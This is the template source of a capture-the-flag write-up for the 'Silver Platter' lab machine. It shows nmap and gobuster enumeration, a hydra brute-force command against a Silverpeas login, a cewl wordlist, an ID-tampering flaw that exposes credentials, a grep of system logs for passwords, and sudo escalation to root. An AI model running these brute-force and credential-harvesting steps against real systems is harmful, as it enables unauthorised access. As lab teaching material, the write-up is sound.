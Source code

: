 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let's begin by scanning all the ports.")}}

{{console("nmap -sC -p- 10.10.6.60", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-09 15:23 CET
Warning: 10.10.6.60 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.6.60
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error

Nmap done: 1 IP address (1 host up) scanned in 218.74 seconds")}}

{{text("We find 3 open ports.")}}

{{list(['22 (SSH)', '80 (HTTP)', '8080 (HTTP)'])}}

{{text("Upon visiting the web server, we are presented with a page for a organization that improves cybersecurity measures.")}}

{{image("../../static/writeups/silverplatter/images/000001.jpg")}}

{{text("Under 'Contact' we can find information about a project manager on 'Silverpeas' whose username is 'scr1ptkiddy'.")}}

{{text("I couldn't find anything more on this port, so let's visit the website on port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>8080</code>.")}}

{{image("../../static/writeups/silverplatter/images/000002.jpg")}}

{{text("We find nothing but a 404 error page. I wonder if directory enumerating will get us something.")}}

{{console("gobuster dir -u http://10.10.6.60:8080 -w /usr/share/wordlists/dirb/big.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.6.60:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 302) [Size: 0] [--> /noredirect.html]
/website              (Status: 302) [Size: 0] [--> http://10.10.6.60:8080/website/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================")}}

{{text("Going through these directories also didn't yield any interesting results.")}}

{{text("I remembered that little piece of information about a project manager on 'Silverpeas' so I tried to enter that into the URL.")}}

{{image("../../static/writeups/silverplatter/images/000003.jpg")}}

{{text("I was right and now we have got a login panel.")}}

{{header("Web Access", "web-access")}}

{{text("Since we know the username is 'scr1ptkiddy', we probably have to brute-force the password now.")}}

{{text("You can use a tool like <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Hydra</code> or <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Burp Suite</code> to do so.")}}

{{text("By catching a log in request with Burp, I was able to craft a command we can use to brute-force the password.")}}

{{console("hydra -l scr1ptkiddy -P /usr/share/wordlists/rockyou.txt 10.10.6.60 -s 8080 http-post-form \"/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect\"")}}

{{text("But the command was taking awfully long, so I knew something is wrong. Then I finally read the room description.")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are)</code>")}}

{{text("So that was the problem. We probably need to create our own wordlist to get the password.")}}

{{text("We can do so with a tool named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cewl</code>.")}}

{{text("We run it on the web page from before, and use it as the password list while brute-forcing.")}}

{{console("cewl http://10.10.6.60 > passwords.txt")}}

{{image("../../static/writeups/silverplatter/images/000004.jpg")}}

{{text("Now we can log in using the found password.")}}

{{image("../../static/writeups/silverplatter/images/000005.jpg")}}

{{header("Shell as tim", "shell-as-tim")}}

{{text("We can notice that we have an unread notification. Let's check if it's something important.")}}

{{image("../../static/writeups/silverplatter/images/000006.jpg")}}

{{text("Sadly, the message isn't going to help us, but I noticed something wrong in the URL.")}}

{{text("The <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>?ID=5</code> parameter probably means that it's  the fifth message in the database. I wonder if we can read other messages upon changing the number.")}}

{{text("I catch the request using Burp and change the ID to 6.")}}

{{image("../../static/writeups/silverplatter/images/000007.jpg")}}

{{text("Now we can log in using SSH thanks to the obtained credentials.")}}

{{header("Shell as tyler", "shell-as-tyler")}}

{{text("While logged in as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tim</code> we check what groups we belong to.")}}

{{console("id", "uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)")}}

{{text("The <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>adm</code> group is mostly used for system monitoring, which means we probably can read all the logs on the machine.")}}

{{text("We can use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>grep</code> to search recursively for the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>password</code> phrase in the logs.")}}

{{console("grep -ri \"password\" /var/log 2>/dev/null", "...
/var/log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=[REDACTED] -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
...")}}

{{text("Now with a password, let's find a place to use it. I checked the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code> file and found a user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tyler</code>.")}}

{{text("We use the found password to log in as the new user and it works.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we know our password, let's check our sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL")}}

{{text("Wow. We can run any command as any user. In such case we can simply change our user to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>root</code> and read the flag.")}}

{{image("../../static/writeups/silverplatter/images/000008.jpg")}}

{{script()}}